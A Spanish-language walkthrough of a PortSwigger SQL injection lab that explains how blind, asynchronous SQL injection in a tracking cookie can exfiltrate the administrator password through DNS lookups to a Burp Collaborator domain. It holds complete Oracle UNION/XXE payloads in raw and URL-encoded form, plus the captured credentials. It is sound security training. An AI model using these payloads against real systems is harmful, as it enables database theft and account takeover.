




# Write-up - PortSwigger SQLi Lab 16

Voy a hacer un laboratorio de Port Swigger. El lab 16 de SQLi.

URL del laboratorio:

```text
https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Laboratorio: Inyección SQL ciega con exfiltración de datos fuera de banda (Out-of-Band)

Este laboratorio contiene una vulnerabilidad de inyección SQL ciega. La aplicación utiliza una cookie de seguimiento para analítica y realiza una consulta SQL que incluye el valor de la cookie enviada.

La consulta SQL se ejecuta de forma asíncrona y no tiene efecto en la respuesta de la aplicación. Sin embargo, puedes provocar interacciones fuera de banda con un dominio externo.

La base de datos contiene una tabla llamada `users`, con columnas llamadas `username` y `password`. Necesitas explotar la vulnerabilidad de inyección SQL ciega para averiguar la contraseña del usuario `administrator`.

Para resolver el laboratorio, inicia sesión como el usuario `administrator`.

## Nota

Para evitar que la plataforma Academy se utilice para atacar a terceros, el firewall bloquea las interacciones entre los laboratorios y sistemas externos arbitrarios. Para resolver el laboratorio, debes usar el servidor público por defecto de Burp Collaborator.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Contexto general del laboratorio

Este laboratorio es una evolución del laboratorio anterior de SQL injection ciega con interacción fuera de banda.

En el laboratorio anterior, el objetivo era únicamente conseguir que la base de datos realizara una interacción DNS hacia Burp Collaborator. Es decir, nos bastaba con provocar una conexión externa para demostrar que la inyección se estaba ejecutando.

En este laboratorio, el objetivo es más avanzado.

Aquí no basta con provocar una interacción. Tenemos que conseguir que esa interacción lleve dentro información sensible de la base de datos.

Concretamente, queremos que la contraseña del usuario `administrator` viaje dentro del dominio consultado por DNS.

La idea de alto nivel es esta:

```text
Base de datos -> consulta DNS -> Burp Collaborator
```

Pero no queremos una consulta DNS cualquiera.

Queremos algo como esto:

```text
password_del_administrator.subdominio-burp-collaborator.oastify.com
```

De esa forma, cuando Burp Collaborator reciba la consulta DNS, podremos leer la contraseña en el propio nombre del dominio consultado.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Diferencia entre el Lab 15 y el Lab 16

## Lab 15: Out-of-band interaction

En el laboratorio anterior, el objetivo era simplemente esto:

```text
Base de datos -> consulta DNS -> Burp Collaborator
```

Con eso se resolvía el laboratorio.

No necesitábamos extraer datos.

Solo necesitábamos demostrar que la base de datos era capaz de hacer una petición DNS hacia un dominio controlado por nosotros mediante Burp Collaborator.

## Lab 16: Out-of-band data exfiltration

En este laboratorio, el objetivo es:

```text
Base de datos -> consulta DNS con datos -> Burp Collaborator
```

Es decir, la interacción DNS debe incluir la información sensible que queremos exfiltrar.

La contraseña se mete dentro del subdominio.

Ejemplo conceptual:

```text
n7k2k7lp16n7g68tjuxn.cs8y6cav63d1yor1m41idtlzbqhh59ty.oastify.com
```

Aquí:

```text
cs8y6cav63d1yor1m41idtlzbqhh59ty.oastify.com
```

es el dominio generado por Burp Collaborator.

Y:

```text
n7k2k7lp16n7g68tjuxn
```

es la parte nueva que la base de datos ha añadido al dominio.

Esa parte nueva es el resultado de nuestra query SQL:

```sql
SELECT password FROM users WHERE username='administrator'
```

Por tanto, esa parte nueva es la contraseña del usuario `administrator`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Qué significa que sea SQLi ciega, asíncrona y OAST

Este laboratorio tiene tres características importantes:

## 1. SQLi ciega

La aplicación no devuelve los resultados de la consulta SQL en la respuesta HTTP.

Si hiciéramos algo como:

```sql
SELECT password FROM users WHERE username='administrator'
```

no veríamos la contraseña directamente en la página.

## 2. Ejecución asíncrona

La consulta SQL se ejecuta de forma asíncrona.

Esto significa que la respuesta HTTP que recibe el navegador no depende directamente del resultado de la consulta vulnerable.

Por eso:

- no vemos cambios en la página;
- no vemos errores;
- no vemos diferencias booleanas;
- no podemos apoyarnos en el tiempo de respuesta de la misma forma que en los labs time-based.

## 3. OAST / Out-of-band

Como no podemos observar nada útil en la respuesta HTTP, necesitamos un canal externo.

Ese canal externo es Burp Collaborator.

El servidor de la base de datos hará una consulta DNS o HTTP hacia un dominio controlado por Burp Collaborator.

Cuando esa interacción se produzca, Burp nos la mostrará.

Ese es nuestro canal de exfiltración.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Parámetro vulnerable

El parámetro vulnerable es la cookie:

```http
TrackingId
```

Está dentro de la cabecera `Cookie`.

La aplicación utiliza esta cookie para analítica y realiza una consulta SQL que incluye el valor enviado.

Esto es exactamente lo que aprovechamos.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Objetivos del laboratorio

Los objetivos reales son:

1. Identificar que el vector vulnerable es la cookie `TrackingId`.
2. Construir un payload OAST válido.
3. Usar Burp Collaborator para generar un subdominio único.
4. Hacer que la base de datos consulte ese subdominio.
5. Incluir dentro del subdominio la contraseña del usuario `administrator`.
6. Leer la contraseña desde la pestaña Collaborator.
7. Loguearnos como `administrator`.
8. Resolver el laboratorio.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Vamos a llevar a cabo esto de forma práctica

Le damos a empezar laboratorio y se nos abre la siguiente página web:

```text
https://0a58009b039fda64807608bf002a00fc.web-security-academy.net/
```

La página web tiene el aspecto de la imagen 1.



**Referencia a la imagen 1:** Vista inicial del laboratorio. La aplicación parece una tienda normal de PortSwigger. No hay ningún campo visible que parezca vulnerable. El vector vulnerable está en la cookie `TrackingId`, que se envía automáticamente en las peticiones.

Una vez dentro, abrimos BurpSuitePro y en el navegador activamos FoxyProxy para que en el HTTP History vayan apareciendo las distintas requests mientras navegamos por la página.

Como ya nos da pistas la descripción del laboratorio, tenemos una cookie de rastreo que la aplicación usa internamente para hacer una consulta SQL.

Para ello, nos vamos a la categoría de Gifts:

```http
GET /filter?category=Gifts HTTP/1.1
```

y capturamos la petición de BurpSuite.

La petición capturada es:

```http
GET /filter?category=Gifts HTTP/1.1
Host: 0a58009b039fda64807608bf002a00fc.web-security-academy.net
Cookie: TrackingId=WW8j8y7nosiJKDYF; session=YuyYCAMAACTsmvwR6O3JArG9d5FKs4qO
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a58009b039fda64807608bf002a00fc.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Análisis inicial de la petición

La parte importante es:

```http
Cookie: TrackingId=WW8j8y7nosiJKDYF; session=YuyYCAMAACTsmvwR6O3JArG9d5FKs4qO
```

Tenemos dos cookies:

```text
TrackingId
session
```

La cookie `session` mantiene la sesión del navegador.

La cookie `TrackingId` es la que usa la aplicación para analítica.

Según el enunciado del laboratorio, la vulnerabilidad está en la consulta SQL que contiene el valor de la cookie de seguimiento.

Por tanto, el parámetro que vamos a modificar es:

```text
TrackingId
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Por qué no vamos a ver resultados en la respuesta HTTP

En este laboratorio, aunque la inyección se ejecute correctamente, la respuesta HTTP puede seguir siendo normal.

Eso es lo que hace que sea una inyección SQL ciega.

Si enviamos la petición normal, la respuesta será algo como:

```http
HTTP/2 200 OK
```

Pero ese `200 OK` no nos dice nada sobre si la query interna se ejecutó o no.

Además, como la query se ejecuta de forma asíncrona, aunque el payload se ejecute, no tiene por qué alterar la respuesta.

Por eso necesitamos Burp Collaborator.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Payload base de PortSwigger para Oracle con exfiltración OAST

Vamos a usar el payload que ofrece PortSwigger en el CheatSheet para Oracle, haciendo una variación para exfiltrar datos.

Payload base:

```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

Donde pone:

```sql
SELECT YOUR-QUERY-HERE
```

vamos a modificarlo para meter la cadena de filtración de información de la tabla `users`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Qué conseguimos con este payload

Con esto conseguimos construir una petición HTTP hacia Burp Collaborator donde el subdominio incluye el resultado de una query SQL.

Es decir, queremos crear dinámicamente una URL de este estilo:

```text
http://resultado_de_la_query.BURP-COLLABORATOR-SUBDOMAIN/
```

En nuestro caso, el resultado de la query será la contraseña del usuario `administrator`.

Por tanto, queremos algo así:

```text
http://password_de_administrator.cs8y6cav63d1yor1m41idtlzbqhh59ty.oastify.com/
```

Cuando Oracle procese el XML, intentará resolver esa URL.

Primero hará una consulta DNS.

Esa consulta DNS llegará a Burp Collaborator.

Y ahí veremos la contraseña en el subdominio.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Payload inicial lógico

Partimos de:

```http
Cookie: TrackingId=a' SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual--
```

Esto todavía no está listo para enviarse.

Tiene varios problemas:

1. Contiene espacios.
2. Contiene caracteres especiales XML.
3. Contiene comillas.
4. Contiene `?`, `%`, `:`, `/`.
5. Dentro de una cookie, todo eso puede romper la petición.
6. Además, nos falta integrarlo correctamente con la consulta original, que luego resolveremos con `UNION`.

Por eso necesitamos web encodearlo.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Payload webcodeado con CTRL + U

Lo webcodeamos con `CTRL + U`.

Payload webcodeado:

```http
Cookie: TrackingId=a'+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--;
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Por qué hay que webcodear

El payload contiene caracteres que pueden ser interpretados de forma incorrecta por HTTP o por el parser de cookies.

Algunos ejemplos:

```text
?  -> %3f
:  -> %3a
%  -> %25
;  -> %3b
espacio -> +
```

Si no codificamos correctamente, puede pasar que:

- la cookie se corte;
- el servidor interprete mal el payload;
- Burp envíe una petición distinta a la esperada;
- la consulta SQL no llegue a ejecutarse;
- el XML se rompa antes de llegar a Oracle.

Por eso el encoding es importante.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# La query que queremos insertar

La query aquí va a ser diferente, ya que no nos vale simplemente una interacción.

La interacción debe filtrar la contraseña del usuario `administrator`.

Para eso necesitamos ejecutar:

```sql
SELECT password FROM users WHERE username='administrator'
```

En formato webcodeado:

```text
SELECT+password+FROM+users+WHERE+username%3d'administrator'
```

Aquí:

```text
%3d
```

representa el signo:

```text
=
```

Por tanto:

```text
username%3d'administrator'
```

equivale a:

```sql
username='administrator'
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Inserción de la query dentro del dominio

El payload usa esta parte:

```sql
'||(SELECT YOUR-QUERY-HERE)||'
```

La idea es concatenar el resultado de la query dentro de la URL.

En Oracle, `||` es el operador de concatenación.

Por tanto, esta parte:

```sql
"http://'||(SELECT password FROM users WHERE username='administrator')||'.COLLABORATOR/"
```

si la contraseña fuese:

```text
abc123
```

se convertiría en:

```text
http://abc123.COLLABORATOR/
```

Ese es el truco central del laboratorio.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Payload final usado

El payload final queda así:

```http
Cookie: TrackingId=a'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.cs8y6cav63d1yor1m41idtlzbqhh59ty.oastify.com/">+%25remote%3b]>'),'/1')+FROM+dual--
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Por qué usamos UNION

La consulta original de la aplicación probablemente es parecida a:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = '[COOKIE]'
```

Si nosotros simplemente metemos:

```sql
SELECT EXTRACTVALUE(...)
```

sin conectarlo correctamente, la consulta quedaría rota.

Algo así:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'a' SELECT EXTRACTVALUE(...)
```

Eso no es SQL válido.

No se pueden poner dos `SELECT` seguidos sin unirlos.

Por eso usamos:

```sql
UNION SELECT
```

Con `UNION`, la query queda conceptualmente así:

```sql
SELECT TrackingId FROM TrackedUsers WHERE TrackingId = 'a'
UNION
SELECT EXTRACTVALUE(...) FROM dual
```

Ahora sí es una consulta válida.

La primera parte puede no devolver nada útil, pero la segunda parte ejecuta nuestro payload XML.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Qué hace cada parte del payload final

Payload:

```http
Cookie: TrackingId=a'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.cs8y6cav63d1yor1m41idtlzbqhh59ty.oastify.com/">+%25remote%3b]>'),'/1')+FROM+dual--
```

## `a'`

Cierra la cadena original del `TrackingId`.

La aplicación esperaba algo como:

```sql
TrackingId = 'WW8j8y7nosiJKDYF'
```

Con `a'` dejamos cerrada esa parte:

```sql
TrackingId = 'a'
```

## `UNION SELECT`

Permite añadir una segunda consulta a la consulta original.

## `EXTRACTVALUE(...)`

Obliga a Oracle a procesar un XML.

## `xmltype(...)`

Convierte el texto en un objeto XML procesable por Oracle.

## `DOCTYPE`

Permite definir una entidad externa.

## `<!ENTITY % remote SYSTEM "...">`

Define una entidad externa llamada `remote`.

El valor de esa entidad está en una URL externa.

## `(SELECT password FROM users WHERE username='administrator')`

Extrae la contraseña del usuario `administrator`.

## `||`

Concatena strings en Oracle.

Se usa para formar dinámicamente el dominio.

## `.cs8y6cav63d1yor1m41idtlzbqhh59ty.oastify.com`

Es el dominio generado por Burp Collaborator.

## `%remote;`

Invoca la entidad externa.

Eso fuerza a Oracle a resolver el dominio.

## `FROM dual`

Oracle obliga a que todo `SELECT` tenga un `FROM`.

Como no necesitamos una tabla real, usamos `dual`.

## `--`

Comenta el resto de la consulta original para evitar errores de sintaxis.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Flujo completo de ejecución

Cuando enviamos el payload:

1. La aplicación recibe la cookie `TrackingId`.
2. La aplicación mete el valor de la cookie dentro de una consulta SQL.
3. Nuestra comilla cierra el valor original.
4. `UNION SELECT` añade nuestra consulta maliciosa.
5. Oracle ejecuta `EXTRACTVALUE(xmltype(...))`.
6. Oracle parsea el XML.
7. El parser XML encuentra el `DOCTYPE`.
8. El parser XML encuentra una entidad externa.
9. Esa entidad externa contiene una URL.
10. La URL contiene una subconsulta SQL concatenada.
11. Oracle ejecuta la subconsulta:

```sql
SELECT password FROM users WHERE username='administrator'
```

12. Oracle concatena el resultado con el dominio de Collaborator.
13. Se forma un dominio como:

```text
n7k2k7lp16n7g68tjuxn.cs8y6cav63d1yor1m41idtlzbqhh59ty.oastify.com
```

14. Oracle intenta resolver ese dominio.
15. La consulta DNS llega a Burp Collaborator.
16. Burp Collaborator registra la interacción.
17. Nosotros leemos la contraseña en el subdominio.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Envío del payload

Le damos a `Send` en Repeater.

La respuesta HTTP puede no mostrar nada especial.

Esto es normal.

No estamos esperando ver la contraseña en la respuesta.

Estamos esperando verla en Collaborator.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Burp Collaborator: Poll Now

Vamos a Burp Collaborator y hacemos:

```text
Poll Now
```

Después de hacer Poll Now, aparece la imagen 2.



**Referencia a la imagen 2:** En Burp Collaborator vemos varias interacciones DNS y una interacción HTTP. Lo importante es que el payload contiene un subdominio que empieza por un valor nuevo. Ese valor nuevo es la contraseña exfiltrada desde la base de datos.

En la tabla vemos varias filas.

Algunas son de tipo:

```text
DNS
```

y una de tipo:

```text
HTTP
```

Esto significa que el servidor o la infraestructura de la base de datos intentó resolver el dominio y, además, llegó a intentar una conexión HTTP.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Lectura de la contraseña en Collaborator

Si seleccionamos cualquiera de esas interacciones, en la descripción nos aparece el siguiente mensaje:

```text
The Collaborator server received a DNS lookup of type AAAA for the domain name n7k2k7lp16n7g68tjuxn.cs8y6cav63d1yor1m41idtlzbqhh59ty.oastify.com.
```

El dominio de Burp Collaborator que habíamos generado era:

```text
cs8y6cav63d1yor1m41idtlzbqhh59ty.oastify.com
```

Pero la consulta DNS recibida fue:

```text
n7k2k7lp16n7g68tjuxn.cs8y6cav63d1yor1m41idtlzbqhh59ty.oastify.com
```

La parte nueva es:

```text
n7k2k7lp16n7g68tjuxn
```

Por tanto, esta parte nueva es el resultado de la query que hemos hecho:

```sql
SELECT password FROM users WHERE username='administrator'
```

Hemos filtrado información con DNS.

La contraseña del usuario `administrator` es:

```text
n7k2k7lp16n7g68tjuxn
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Por qué aparece como subdominio

DNS resuelve nombres de dominio.

Cuando Oracle intenta acceder a:

```text
http://n7k2k7lp16n7g68tjuxn.cs8y6cav63d1yor1m41idtlzbqhh59ty.oastify.com/
```

antes de hacer la conexión HTTP necesita resolver el dominio a una IP.

Para eso hace una consulta DNS.

Esa consulta DNS pregunta:

```text
¿Dónde está n7k2k7lp16n7g68tjuxn.cs8y6cav63d1yor1m41idtlzbqhh59ty.oastify.com?
```

Como ese dominio pertenece a Burp Collaborator, Burp registra la consulta.

Y como la contraseña está en el subdominio, la vemos directamente en el registro DNS.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Por qué hay varias interacciones

Es normal ver varias interacciones.

Puede haber:

- varias consultas DNS;
- consultas de tipo `A`;
- consultas de tipo `AAAA`;
- reintentos;
- resolvers intermedios;
- una conexión HTTP posterior.

En la imagen 2 vemos varias entradas porque el proceso de resolución DNS y conexión puede implicar más de una interacción.

Esto no es un problema. Al contrario, confirma que el payload ha sido procesado y que la infraestructura ha intentado contactar con el dominio.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Login como administrator

Ahora nos vamos a `My account`.

En el panel de login rellenamos con las credenciales:

```text
username: administrator
password: n7k2k7lp16n7g68tjuxn
```

La imagen 3 muestra el login.



**Referencia a la imagen 3:** Formulario de login donde introducimos el usuario `administrator` y la contraseña obtenida mediante exfiltración DNS fuera de banda.

Le damos a `Log in`.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Laboratorio resuelto

Finalmente, la aplicación nos deja entrar como `administrator`.

La imagen 4 muestra el panel de administrador y el laboratorio resuelto.



**Referencia a la imagen 4:** Panel `My Account` del usuario `administrator`. En la parte superior aparece el banner de PortSwigger indicando que el laboratorio ha sido resuelto.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Explicación técnica final de la exfiltración

Este ataque funciona porque hemos unido tres conceptos:

## 1. SQL injection

La cookie `TrackingId` entra en una consulta SQL sin sanitizar correctamente.

Eso nos permite inyectar SQL.

## 2. XML External Entity en Oracle

Oracle procesa XML mediante `xmltype` y `EXTRACTVALUE`.

Al incluir una entidad externa en el `DOCTYPE`, podemos forzar a Oracle a consultar una URL externa.

## 3. DNS como canal de exfiltración

Como el dominio consultado contiene el resultado de una consulta SQL, el dato sensible viaja dentro de la consulta DNS.

Por eso podemos leer la contraseña en Burp Collaborator.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Resumen técnico completo

La secuencia completa ha sido:

1. Abrir el laboratorio.
2. Identificar la cookie `TrackingId`.
3. Capturar la petición con BurpSuite.
4. Enviar la petición al Repeater.
5. Construir un payload Oracle OAST basado en `EXTRACTVALUE` y `xmltype`.
6. Generar un subdominio de Burp Collaborator.
7. Insertar la subconsulta:

```sql
SELECT password FROM users WHERE username='administrator'
```

8. Concatenar el resultado de la subconsulta con el dominio de Collaborator.
9. Añadir `UNION SELECT` para que la consulta sea válida.
10. Webcodear el payload.
11. Enviar la petición.
12. Ir a Burp Collaborator.
13. Pulsar `Poll Now`.
14. Leer el subdominio recibido.
15. Extraer la contraseña.
16. Loguearse como `administrator`.
17. Resolver el laboratorio.

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Payloads clave utilizados

## Payload base de PortSwigger para Oracle con exfiltración

```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

## Payload webcodeado con placeholder

```http
Cookie: TrackingId=a'+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--;
```

## Query para obtener la contraseña

```sql
SELECT password FROM users WHERE username='administrator'
```

## Query webcodeada

```text
SELECT+password+FROM+users+WHERE+username%3d'administrator'
```

## Payload final usado

```http
Cookie: TrackingId=a'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username%3d'administrator')||'.cs8y6cav63d1yor1m41idtlzbqhh59ty.oastify.com/">+%25remote%3b]>'),'/1')+FROM+dual--
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Credenciales obtenidas

```text
administrator : n7k2k7lp16n7g68tjuxn
```

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

# Conclusión

Este laboratorio demuestra una técnica muy potente:

```text
Blind SQL injection + Out-of-Band + DNS exfiltration
```

La aplicación no muestra datos, no muestra errores y la consulta SQL se ejecuta de forma asíncrona.

Aun así, conseguimos extraer la contraseña del usuario `administrator`.

La clave fue no intentar leer los datos en la respuesta HTTP.

En lugar de eso, hicimos que la base de datos construyera un dominio que contenía la contraseña y lo resolviera hacia Burp Collaborator.

La contraseña viajó dentro del subdominio:

```text
n7k2k7lp16n7g68tjuxn.cs8y6cav63d1yor1m41idtlzbqhh59ty.oastify.com
```

Por eso pudimos extraerla desde la pestaña Collaborator.

FRASE CLAVE:

```text
No estás esperando que la web te devuelva la contraseña.
Estás obligando a la base de datos a enviártela por DNS.
```

**Laboratorio resuelto.**

